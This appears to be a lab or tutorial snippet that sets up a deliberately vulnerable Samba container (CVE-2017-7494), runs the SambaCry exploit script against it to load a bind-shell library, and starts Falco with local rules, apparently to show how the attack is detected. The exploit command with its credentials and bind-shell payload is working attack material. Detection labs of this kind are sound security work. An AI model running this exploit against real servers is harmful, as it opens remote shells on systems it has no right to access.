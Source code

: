docker network create smbnet

docker run --rm -ti --name samba --network smbnet -p 137-139:137-139 -p 445:445 -p 6699:6699 vulnerables/cve-2017-7494

docker run --rm -ti --name exploit --network smbnet bencer/sambacry

./exploit.py -t samba -e libbindshell-samba.so -s data -r /data/libbindshell-samba.so -u sambacry -p nosambanocry -P 6699

docker run --rm -ti --name falco --privileged -v /var/run/docker.sock:/host/var/run/docker.sock -v /dev:/host/dev -v /proc:/host/proc:ro -v /boot:/host/boot:ro -v /lib/modules:/host/lib/modules:ro -v /usr:/host/usr:ro -v ${PWD}/falco_rules.local.yaml:/etc/falco/falco_rules.local.yaml:ro sysdig/falco
